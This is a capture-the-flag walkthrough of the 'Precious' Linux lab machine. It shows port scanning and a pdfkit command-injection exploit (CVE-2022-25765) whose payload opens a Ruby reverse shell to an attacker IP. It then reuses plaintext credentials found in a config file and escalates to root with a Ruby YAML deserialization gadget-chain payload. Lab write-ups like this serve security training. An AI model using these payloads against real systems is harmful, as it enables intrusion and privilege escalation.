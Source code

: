 # Precious
**OS:** Linux
**Difficulty:** Easy

## Enumeration:

I'll start with a simple port scan.
```bash
nmap -sC -sV -p- 10.129.228.98 -oN nmap.txt

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I will first examine the HTTP server.

![index](images/img1.png)

I'll start a simple python server.
```bash
python3 -m http.server 80
```

I'll also start Burp Suite to intercept the response.

![response](images/img2.png)

As we can see, "pdfkit v0.8.6" is used to convert the pages into a pdf format. 

## Foothold:

I found a POC of a RCE vulnerability in this program.

[POC](https://github.com/UNICORDev/exploit-CVE-2022-25765)

I'll use it to obtain a shell on the system.

```bash
./exploit-CVE-2022-25765.py -s 10.10.14.134 6666

        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
    
UNICORD: Exploit for CVE-2022–25765 (pdfkit) - Command Injection
OPTIONS: Reverse Shell Mode
PAYLOAD: http://%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.14.134","6666"))'`
LOCALIP: 10.10.14.134:6666
WARNING: Be sure to start a local listener on the above IP and port.
EXPLOIT: Copy the payload above into a PDFKit.new().to_pdf Ruby function or any application running vulnerable pdfkit.
```

I will start a listening port on my system and send the payload.

![shell](images/img3.png)

It worked! We can improve the shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Lateral Movement:

I'll search for any unusual file or folder in the home directory of the user.
```bash
ruby@precious:~$ ls -la
ls -la
total 28
drwxr-xr-x 4 ruby ruby 4096 Jan 26 05:51 .
drwxr-xr-x 4 root root 4096 Oct 26  2022 ..
lrwxrwxrwx 1 root root    9 Oct 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .bundle
drwxr-xr-x 3 ruby ruby 4096 Jan 26 05:51 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
```

".bundle" seems unusual. Taking a look inside the directory, we find a file with plaintext credentials.
```bash
cd .bundle
ls

#
config
#

cat config

#
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
#
```

We can use them to establish a SSH connection.

```bash
ssh henry@precious.htb
Q3c1AqGHtoI0aXAYFH
```

We can now get the user flag.
```bash
cat user.txt
```

### We got the user flag!

## Privilege escalation:

Let's see if we can run something as root.
```bash
sudo -l

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Let's take a look at the ruby file we can run.
```bash
cat /opt/update_dependencies.rb

# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

We can see the function "list_from_file" uses relative path instead of absolute path. There is an [exploit](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/) for this.
First, let us check the Ruby version.

```bash
/usr/bin/ruby --version
ruby 2.7.4p191 (2021-07-07 revision a21a3b7d23) [x86_64-linux-gnu]
```

So the exploit should work. I'll make a "dependencies.yml" with the following payload.
```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: bash
         method_id: :resolve
```

Now, we can send it.
```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb

whoami
root
```

It worked! We can now retrieve the root flag!
```bash
cat /root/root.txt
```

### We got the root flag!